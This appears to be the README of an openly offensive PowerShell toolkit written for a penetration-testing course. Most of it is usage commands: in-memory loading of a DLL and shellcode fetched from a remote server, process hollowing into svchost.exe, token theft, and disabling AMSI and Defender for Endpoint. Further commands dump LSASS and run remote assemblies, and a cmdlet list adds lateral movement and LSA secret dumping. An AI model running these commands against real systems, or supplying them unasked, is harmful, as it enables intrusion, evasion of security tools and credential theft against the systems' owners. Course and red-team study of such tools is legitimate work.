 # TortugaToolKit

Written during OSEP course, for learning purposes. Used heavily during the exam with much success. Thanks to all the open source projects out there that i was able to use and learn from.

## Examples

Load it

```powershell
$a=[System.Reflection.Assembly]::Load($(IWR -Uri http://yourserver/tortugatoolkit.dll -UseBasicParsing).Content);
Import-Module -Assembly $a

Untested but should work. maybe.
$test=((IWR -Uri 'http://yourserver/turtletoolkit.dll' -UseBasicParsing).RawContent);
$len=$test.length;$test.SubString($len-($len -198));$a=[System.Reflection.Assembly]::Load($test);
Import-Module -Assembly $a

```

Example of remotely loading and encrypting shellcode, then performing proc hollow with it
```powershell
$r = Invoke-EncryptShellcode -shellcode $(IWR -Uri 'http://ip/shellcode.bin' -usebasicparsing).Content
Invoke-ProcessHollow -procName 'svchost.exe' -k $r.encryptedKey -encsh $r.encryptedshellcode -ivk $.initVector
```
Example of performing ping sweep then admin check on subnet
```powershell
$s = Invoke-PingSweep -s "172.16.23.0";
foreach($h in $s){Invoke-AdminCheck -t $h}

Invoke-AdminCheck -h $(Invoke-PingSweep -s "172.16.75.0")
```
Example of impersonation via process token then running SharpView (or sharphound) as that domain user
```powershell
Invoke-TokenStealer -procH $false

Get-CurrentIdentity

Invoke-TurtleView -c "Get-DomainComputers";
Invoke-TurtleHound
```
Example of disabling amsi then disabling defender for endpoint and performing lsass process dump
```powershell
Disable-AyEmEsEye -Verbose
Disable-DefenderForEndpoint
Invoke-TurtleDump
Enable-DefenderForEndpint

```
Example of loading and executing a c# assembly
```powershell
Invoke-AssemblyLoader -e $false -l $false -path "http://ip/payload" -name namespace -clss targetclass -run method

```

## Cmdlets

```
Disable-AyEmEsEye
Disable-DefenderForEndpoint
Disable-Etw
Enable-DefenderForEndpoint
Enable-Privileges
Get-ActiveDirectoryComputers
Get-ActiveDirectoryForests
Get-ActiveDirectoryGroupMembership
Get-ActiveDirectoryGroups
Get-ActiveDirectoryUsers
Get-CurrentIdentity
Get-MsSQLQuery
Get-SQLInfo
Get-System
Get-TrustedInstaller
Invoke-AdminCheck
Invoke-AssemblyLoader
Invoke-ClassicInjection
Invoke-FileLessLateralMovement
Invoke-LsaSecretsDmp
Invoke-MsSQLAssembly
Invoke-MsSQLShell
Invoke-PingSweep
Invoke-ProcessHollow
Invoke-ShellcodeEncryption
Invoke-TokenStealer
Invoke-TurtleDump
Invoke-TurtleHound
Invoke-TurtleUp
Invoke-TurtleView
Undo-Impersonation

```

## Credits

* https://github.com/GhostPack/SharpUp
* https://github.com/tevora-threat/SharpView
* https://github.com/BloodHoundAD/SharpHound3
* https://devblogs.microsoft.com/scripting/use-powershell-to-decrypt-lsa-secrets-from-the-registry/
* https://github.com/clymb3r/PowerShell/blob/master/Invoke-TokenManipulation/Invoke-TokenManipulation.ps1
* https://www.exploit-db.com/exploits/13054
* https://github.com/latortuga71/latortugaDump
* https://github.com/b4rtik/ATPMiniDump
* https://www.matteomalvica.com/blog/2019/12/02/win-defender-atp-cred-bypass/
* https://github.com/cobbr/SharpSploit
* https://medium.com/csis-techblog/silencing-microsoft-defender-for-endpoint-using-firewall-rules-3839a8bf8d18
* https://0x00-0x00.github.io/research/2018/10/21/Windows-API-And-Impersonation-Part-2.html
* https://github.com/latortuga71/DisableDefenderForEndpointPOC
* https://institute.sektor7.net/
* https://www.mike-gualtieri.com/posts/red-team-tradecraft-loading-encrypted-c-sharp-assemblies-in-memory
* https://dotnetninja.net/2020/03/creating-a-powershell-cmdlet-in-c/
* https://king-sabri.net/how-to-compile-embed-and-use-sharpsploit/
* https://www.tiraniddo.dev/2017/08/the-art-of-becoming-trustedinstaller.html
* https://www.codeproject.com/articles/18102/howto-almost-everything-in-active-directory-via-c
* https://www.offensive-security.com/pen300-osep/


## Unlicense

```
This is free and unencumbered software released into the public domain.


Anyone is free to copy, modify, publish, use, compile, sell, or
distribute this software, either in source code form or as a compiled
binary, for any purpose, commercial or non-commercial, and by any
means.


In jurisdictions that recognize copyright laws, the author or authors
of this software dedicate any and all copyright interest in the
software to the public domain. We make this dedication for the benefit
of the public at large and to the detriment of our heirs and
successors. We intend this dedication to be an overt act of
relinquishment in perpetuity of all present and future rights to this
software under copyright law.


THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND,
EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT.
IN NO EVENT SHALL THE AUTHORS BE LIABLE FOR ANY CLAIM, DAMAGES OR
OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE,
ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR
OTHER DEALINGS IN THE SOFTWARE.

```

For more information, please refer to <http://unlicense.org/>
